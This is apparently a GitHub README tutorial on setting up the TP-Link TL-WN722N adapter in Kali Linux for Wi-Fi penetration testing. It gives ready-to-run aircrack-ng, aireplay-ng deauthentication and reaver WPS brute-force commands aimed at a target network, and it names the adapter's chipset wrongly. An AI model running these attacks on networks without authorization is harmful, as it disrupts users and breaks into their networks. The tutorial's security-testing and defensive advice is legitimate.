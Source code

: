 # TP-Link TL-WN722N USB Wi-Fi Adapter for Penetration Testing

## **Overview**
This guide explains how to use the **TP-Link TL-WN722N USB Wi-Fi adapter** for penetration testing with **Kali Linux**. It covers installation, configuration, network settings for VMs, and ethical considerations.

## **Prerequisites**
- **TP-Link TL-WN722N USB Wi-Fi Adapter** (with **Atheros AR9287 chipset**).
- **Kali Linux** (installed on a physical machine or Virtual Machine).
- **Aircrack-ng Suite** (for wireless network auditing).
- **Reaver** (for WPS brute-force attacks).

---

## **Network Settings for Virtual Machines**
If using Kali Linux in **VirtualBox or VMware**, you must **attach the USB Wi-Fi adapter directly to the VM** instead of using NAT or Bridged Adapter.

### **For VirtualBox:**
1. **Plug in the TP-Link TL-WN722N Adapter** to your computer.
2. **Start VirtualBox** (but do not start the Kali Linux VM yet).
3. **Go to VirtualBox Settings** → `USB`.
4. **Enable USB Controller**:
   - Select `USB 2.0 (EHCI) Controller` (install the VirtualBox Extension Pack if required).
5. **Add the USB device**:
   - Click the `+` icon and select **TP-Link TL-WN722N** from the list.
6. **Start your Kali Linux VM**.
7. **Verify the adapter is recognized** by running:
   ```bash
   lsusb
   ```
   Look for an entry like `Atheros Communications, Inc.`.
8. **Check if it appears as a network interface**:
   ```bash
   iwconfig
   ```
   If you see `wlan0` or `wlan1`, your adapter is detected.

### **For VMware Workstation/Player:**
1. **Plug in the TP-Link TL-WN722N Adapter**.
2. **Start VMware Workstation** (but do not start the Kali Linux VM yet).
3. **Go to** `VM` → `Removable Devices` → `TP-Link TL-WN722N`.
4. **Select** `Connect (Disconnect from Host)`.
5. **Start your Kali Linux VM**.
6. **Verify the adapter is recognized**:
   ```bash
   lsusb
   iwconfig
   ```

---

## **Step-by-Step Process**
### **1. Install Kali Linux**
If you haven't already, [download and install Kali Linux](https://www.kali.org/get-kali/) from the official website.

### **2. Install Necessary Drivers**
The TP-Link TL-WN722N adapter uses the **Atheros AR9287 chipset**, supported by the `ath9k` driver in Linux.
```bash
sudo apt update
sudo apt install firmware-atheros
```

### **3. Connect the TP-Link TL-WN722N Adapter**
Simply plug the adapter into a **USB port** on your Kali Linux machine.

### **4. Verify the Adapter is Recognized**
Run the following command:
```bash
iwconfig
```
You should see an interface like `wlan0` or `wlan1`.

### **5. Put the Adapter in Monitor Mode**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
```

### **6. Scan for Available Networks**
```bash
sudo airodump-ng wlan0
```
This will display a list of available networks.

### **7. Capture Handshake**
```bash
sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0
```
Replace `<BSSID>` with the target network's BSSID and `<CHANNEL>` with the channel number.

### **8. Deauthenticate Clients**
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0
```
This will force clients to disconnect and reconnect, allowing you to capture the handshake.

### **9. Crack the WPA/WPA2 Password**
```bash
sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
```
Replace `/path/to/wordlist.txt` with your actual wordlist file and `<BSSID>` with the target BSSID.

### **10. Alternative: Attack WPS (Wi-Fi Protected Setup)**
```bash
sudo reaver -i wlan0 -b <BSSID> -vv
```

---

## **Important Notes**
### **Legal and Ethical Considerations**
- **Unauthorized penetration testing is illegal**. Always obtain **explicit permission** before testing any network.
- **Use these techniques only for educational and security assessment purposes**.
- **Hacking unauthorized networks can lead to severe legal consequences.**

### **Security Measures to Protect Your Own Network**
- Use **WPA3 or strong WPA2 encryption**.
- Set **complex passwords** and update them regularly.
- **Disable WPS (Wi-Fi Protected Setup)** to prevent brute-force attacks.
- Regularly **update your router firmware** to patch security vulnerabilities.

---

By following these steps, you can ethically test the security of your own Wi-Fi network and identify potential vulnerabilities. **Always prioritize legal and ethical considerations in your penetration testing activities.**

---

### **Disclaimer**
This guide is for **educational purposes only**. The author is **not responsible** for any misuse of this information. Always obtain **legal authorization** before performing penetration testing on any network.

